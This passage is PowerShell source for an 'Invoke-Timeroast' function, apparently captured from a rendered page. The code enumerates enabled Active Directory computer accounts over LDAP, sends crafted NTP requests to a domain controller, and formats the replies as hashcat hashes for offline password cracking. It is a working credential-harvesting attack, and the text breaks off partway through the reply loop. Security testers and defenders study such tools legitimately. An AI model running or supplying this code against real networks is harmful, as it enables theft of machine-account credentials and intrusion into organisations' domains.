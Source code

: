 ```powershell
function Invoke-Timeroast()
{
    param(
        [Parameter(Mandatory=$true, Position=0)]
        [string]$Server,
        [int]$Rate = 50,
        [int]$Timeout = 60,
        [Uint16]$SourcePort
    )

    $ErrorActionPreference = "Stop"

    $NTP_PREFIX = [byte[]]@(0xdb,0x00,0x11,0xe9,0x00,0x00,0x00,0x00,0x00,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0xe1,0xb8,0x40,0x7d,0xeb,0xc7,0xe5,0x06,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0xe1,0xb8,0x42,0x8b,0xff,0xbf,0xcd,0x0a)

    $ldapFilter = "(&(objectCategory=computer)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"
    $searcher = New-Object DirectoryServices.DirectorySearcher
    $searcher.Filter = $ldapFilter
    $searcher.PropertiesToLoad.Add("samAccountName") | Out-Null
    $searcher.PropertiesToLoad.Add("objectSID") | Out-Null
    $results = $searcher.FindAll()
    # $results = Import-Csv "sids_and_names.csv"

    if ($port -eq 0) {
        $client = New-Object System.Net.Sockets.UdpClient
    } else {
        $client = New-Object System.Net.Sockets.UdpClient($SourcePort)
    }

    $client.Client.ReceiveTimeout = [Math]::floor(1000 / $Rate)
    $client.Connect($Server, 123)

    $i = 0
    $ridToSamAccountName = @{}
    $timeoutTime = (Get-Date).AddSeconds($Timeout)

    while ((Get-Date) -lt $timeoutTime) {
        if ($i -lt $results.Count) {
            $sid = New-Object System.Security.Principal.SecurityIdentifier($results[$i].Properties["objectsid"][0], 0)
            # $sid = New-Object System.Security.Principal.SecurityIdentifier($results[$i].Sid)
            $rid = [UInt32]$sid.Value.Split('-')[-1]
            $query = $NTP_PREFIX + [BitConverter]::GetBytes($rid) + [byte[]]::new(16)
            [void]$client.Send($query, $query.Length)
            $ridToSamAccountName[$rid] = $results[$i].Properties["samaccountname"][0].Trim("$")
            # $ridToSamAccountName[$rid] = $results[$i].Name.Trim("$")
            $i++
        }

        try {
            $reply = $client.Receive([ref]$null)
            
            if ($reply.Length -eq 68) {
                $salt = [byte[]]$reply[0..47]
                $md5Hash = [byte[]]$reply[-16..-1]
                $answerRid = [BitConverter]::ToUInt32($reply[-20..-16], 0)

                $hexSalt = [BitConverter]::ToString($salt).Replace("-", "").ToLower()
                $hexMd5Hash = [BitConverter]::ToString($md5Hash).Replace("-", "").ToLower()
                $hashcatHash = "{0}:`$sntp-ms`${1}`${2}" -f $ridToSamAccountName[$answerRid], $hexMd5Hash, $hexSalt

```